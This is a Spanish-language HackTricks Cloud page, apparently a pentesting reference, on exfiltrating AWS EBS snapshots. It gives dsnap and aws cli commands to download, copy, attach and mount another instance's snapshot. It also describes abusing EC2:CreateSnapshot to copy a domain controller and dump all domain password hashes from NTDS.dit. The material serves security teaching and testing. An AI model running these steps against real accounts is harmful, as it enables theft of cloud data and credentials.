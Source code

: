 # AWS - EBS Snapshot Dump

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}

## Comprobando un snapshot localmente
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
{% hint style="danger" %}
**Nota** que `dsnap` no te permitirá descargar instantáneas públicas. Para eludir esto, puedes hacer una copia de la instantánea en tu cuenta personal y descargar eso:
{% endhint %}

{% code overflow="wrap" %}
```bash
# Copy the snapshot
aws ec2 copy-snapshot --source-region us-east-2 --source-snapshot-id snap-09cf5d9801f231c57 --destination-region us-east-2 --description "copy of snap-09cf5d9801f231c57"

# View the snapshot info
aws ec2 describe-snapshots --owner-ids self --region us-east-2

# Download the snapshot. The ID is the copy from your account
dsnap --region us-east-2 get snap-027da41be451109da

# Delete the snapshot after downloading
aws ec2 delete-snapshot --snapshot-id snap-027da41be451109da --region us-east-2
```
{% endcode %}

Para más información sobre esta técnica, consulta la investigación original en [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

Puedes hacer esto con Pacu usando el módulo [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs\_\_download\_snapshots)

## Comprobando un snapshot en AWS

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
{% endcode %}

**Móntalo en una VM de EC2 bajo tu control** (debe estar en la misma región que la copia de la copia de seguridad):

Paso 1: Se debe crear un nuevo volumen del tamaño y tipo que prefieras dirigiéndote a EC2 –> Volúmenes.

Para poder realizar esta acción, sigue estos comandos:

* Crea un volumen EBS para adjuntar a la instancia de EC2.
* Asegúrate de que el volumen EBS y la instancia estén en la misma zona.

Paso 2: Se debe seleccionar la opción "adjuntar volumen" haciendo clic derecho en el volumen creado.

Paso 3: Se debe seleccionar la instancia del cuadro de texto de la instancia.

Para poder realizar esta acción, utiliza el siguiente comando:

* Adjunta el volumen EBS.

Paso 4: Inicia sesión en la instancia de EC2 y lista los discos disponibles usando el comando `lsblk`.

Paso 5: Verifica si el volumen tiene datos usando el comando `sudo file -s /dev/xvdf`.

Si la salida del comando anterior muestra "/dev/xvdf: data", significa que el volumen está vacío.

Paso 6: Formatea el volumen al sistema de archivos ext4 usando el comando `sudo mkfs -t ext4 /dev/xvdf`. Alternativamente, también puedes usar el formato xfs usando el comando `sudo mkfs -t xfs /dev/xvdf`. Ten en cuenta que debes usar ext4 o xfs.

Paso 7: Crea un directorio de tu elección para montar el nuevo volumen ext4. Por ejemplo, puedes usar el nombre "newvolume".

Para poder realizar esta acción, utiliza el comando `sudo mkdir /newvolume`.

Paso 8: Monta el volumen en el directorio "newvolume" usando el comando `sudo mount /dev/xvdf /newvolume/`.

Paso 9: Cambia al directorio "newvolume" y verifica el espacio en disco para validar el montaje del volumen.

Para poder realizar esta acción, utiliza los siguientes comandos:

* Cambia al directorio `/newvolume`.
* Verifica el espacio en disco usando el comando `df -h .`. La salida de este comando debería mostrar el espacio libre en el directorio "newvolume".

Puedes hacer esto con Pacu usando el módulo `ebs__explore_snapshots`.

## Comprobando un snapshot en AWS (usando cli)

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
{% endcode %}

## Copia Sombra

Cualquier usuario de AWS que posea el permiso **`EC2:CreateSnapshot`** puede robar los hashes de todos los usuarios del dominio creando una **copia de seguridad del Controlador de Dominio**, montándola en una instancia que controlan y **exportando el NTDS.dit y el archivo del registro SYSTEM** para su uso con el proyecto secretsdump de Impacket.

Puedes usar esta herramienta para automatizar el ataque: [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) o podrías usar una de las técnicas anteriores después de crear una copia de seguridad.

## Referencias

* [https://devopscube.com/mount-ebs-volume-ec2-instance/](https://devopscube.com/mount-ebs-volume-ec2-instance/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
